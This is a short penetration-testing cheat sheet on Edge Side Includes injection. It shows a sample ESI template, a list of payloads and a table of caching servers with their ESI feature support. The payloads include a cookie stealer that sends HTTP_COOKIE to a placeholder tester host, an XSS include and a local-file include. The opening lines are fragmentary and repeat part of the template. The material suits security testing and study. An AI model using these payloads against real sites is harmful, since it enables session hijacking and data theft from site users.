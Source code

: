 </head>
<body>
  <esi:include src="/header.html"/>
  <esi:include src="/content.html"/>
  <esi:include src="/footer.html"/>
</body>
</html>
```html
<html> 
	<head> 
		<title>My News Website</title> 
	</head> 
	<body> 
		<esi:include src="/header.html"/> 
		<esi:include src="/content.html"/> 
		<esi:include src="/footer.html"/> 
	</body> 
</html>
```


### Payloads


```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```





|**Software**|**Includes**|**Vars**|**Cookies**|**Upstream Headers Required**|**Host Whitelist**|
|:-:|:-:|:-:|:-:|:-:|:-:|
|Squid3|Yes|Yes|Yes|Yes|No|
|Varnish Cache|Yes|No|No|Yes|Yes|
|Fastly|Yes|No|No|No|Yes|
|Akamai ESI Test Server (ETS)|Yes|Yes|Yes|No|No|
|NodeJS esi|Yes|Yes|Yes|No|No|
|NodeJS nodesi|Yes|No|No|No|Optional|
